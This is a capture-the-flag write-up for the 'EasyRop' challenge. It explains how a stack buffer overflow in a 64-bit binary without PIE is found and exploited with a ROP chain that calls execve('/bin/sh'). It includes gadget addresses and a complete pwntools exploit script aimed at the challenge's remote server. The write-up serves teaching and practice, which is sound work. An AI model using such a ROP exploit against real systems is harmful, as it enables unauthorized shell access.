 # EasyRop - Writeup

![challenge description](./chall_description.png)<br>

## Recon
We are given a binary that takes user input and then exits:
`
Welcome to the darkcon pwn!!
Let us know your name:lightstack
`

Using `file` I learned, that we were working with a 64bit binary that was dynamically linked and (using checksec) had PIE (so ASLR) disabled.
When inputting a lot of A's, we get a segmentation fault, that means we have a buffer overflow.

By inputting a pattern generated by pythons pwntools cyclic generator, I found out, that the padding (so the memory space reserved for the input on the stack) was 72bytes.

The next 8bytes are the return pointer that will be POPped.

## Preparation
Now I thought about my objective:
Getting a shell
What we have to do:
1.Write "/bin/sh" somewhere in memory
2.make a syscall or call system with the first parameter being the location of the string, and the two next parameters being just anything 

The challenge is called EasyROP, so let's look for some fitting ROP gadgets.
I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) and came up with the following list of gadgets I would need:

\[+] Gadget found: 0x4012d3 syscall 							; making the syscall
\[+] Gadget found: 0x481e65 mov qword ptr \[rsi], rax ; ret 	; writing memory 
\[+] Gadget found: 0x40f4be pop rsi ; ret 					; controlling the rsi register
\[+] Gadget found: 0x4175eb pop rax ; ret 					; controlling rax
\[+] Gadget found: 0x40191a pop rdi ; ret 					; ...
\[+] Gadget found: 0x40f4be pop rsi ; ret 
\[+] Gadget found: 0x40181f pop rdx ; ret


## The Plan

pop writable location into rsi >> 
pop "/bin/sh" into rax >> 
call write gadget >> 
pop writable +8 into rsi >> 
pop (anything) into rax >> 
call writegadget >> 
pop /bin/sh location into rdi (the first syscall parameter) >> 
pop the junk data location into rsi and rdx (2. and 3. argument) >>
pop 0x3b into rax (=(dec)59; syscall number for execve) >> 
make syscall

--------------------------------

I am using python pwntools for writing the exploit:

```py
#!/usr/bin/env python3
from pwn import *

def main():
	#io = process("./easy-rop") # For debugging
	io = remote("65.1.92.179",49153)
	pre_data = io.recvuntil("your name:")
	
	payload = b"A"*72 # padding

	#Writing /bin/sh
	payload += p64(0x40f4be)	# pop rsi gadget 
	payload += p64(0x004c00e0) 	# Value for rsi, rw in .data
	payload += p64(0x4175eb)	# pop rax gadget
	payload += b"/bin//sh"		# value for rax that will be written into loc of rsi, we use 2*/ for getting to 8 byte, not seven
	payload += p64(0x481e65)	# mov [rsi], rax gadget for writing string
	
	#Writing null byte into .data+0x8	
	payload += p64(0x40f4be)    # pop rsi gadget 
	payload += p64(0x004c00e0+0x8)# Value for rsi, rw in .data+0x8 so the next argument for execve
	payload += p64(0x4175eb)    # pop rax gadget
	payload += p64(0x0)       	# value for rax, so 0x0 for the array as arguments
	payload += p64(0x481e65)    # mov [rsi], rax gadget for writing string
	
		
	#Preparing syscall
	payload += p64(0x40191a)	# pop rdi gadget
	payload += p64(0x004c00e0)	# value for rdi (location of string = rsi)
	payload += p64(0x40181f)	# pop rdx gadget
	payload += p64(0x004c00e0+0x8)# Value for rdx
	payload += p64(0x4175eb)	# pop rax gadget
	payload += p64(0x3b)		# rax value = (dec) 59 = execve syscall number
	payload += p64(0x40f4be)	# pop rsi gadget 
	payload += p64(0x004c00e0+0x8) 	# value for rsi 
	
	#Make syscall
	payload += p64(0x4012d3) 	# syscall gadget	
	

	input("Send payload")
	io.sendline(payload)
	io.interactive()
	
	io.close()

if __name__=="__main__":
	main()

```


When executing it we get the following output:
![terminal output](./terminal_exploit_execution.png)<br>

Well done! <br>
We got the flag `darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}` !
